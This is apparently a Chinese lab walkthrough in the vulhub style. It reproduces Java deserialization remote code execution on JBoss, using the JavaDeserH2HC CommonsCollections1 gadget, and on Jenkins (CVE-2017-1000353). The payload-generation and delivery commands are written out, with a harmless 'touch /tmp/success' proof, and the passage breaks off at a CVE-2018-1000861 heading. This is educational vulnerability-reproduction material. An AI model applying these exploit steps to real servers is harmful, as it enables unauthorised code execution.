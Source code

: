 参考利用工具
[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)，

我们选择一个Gadget：ExampleCommonsCollections1WithHashMap，编译并生成序列化数据：

```
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

可见，我们执行的命令是
`touch /tmp/success。`

执行完成后，将生成一个文件`ExampleCommonsCollections1WithHashMap.ser`，将该文件作为body发送如下数据包：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

执行docker-compose exec jboss bash进入容器，可见/tmp/success已成功创建。


# **[Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）](https://vulhub.org/#/environments/jenkins/CVE-2017-1000353/)**

## **[漏洞信息](https://github.com/vulhub/CVE-2017-1000353)**



## 漏洞利用：

 1. 首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)
 ，这是生成POC的工具。

执行下面命令，生成字节码文件：

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```
> 执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。


**二.发送数据包，执行命令**

下载exploit.py，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

 发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：


# **[Jenkins远程命令执行漏洞（CVE-2018-1000861）](https://vulhub.org/#/environments/jenkins/CVE-2018-1000861/)**

## **[漏洞复现](https://github.com/orangetw/awesome-jenkins-rce-2019)**
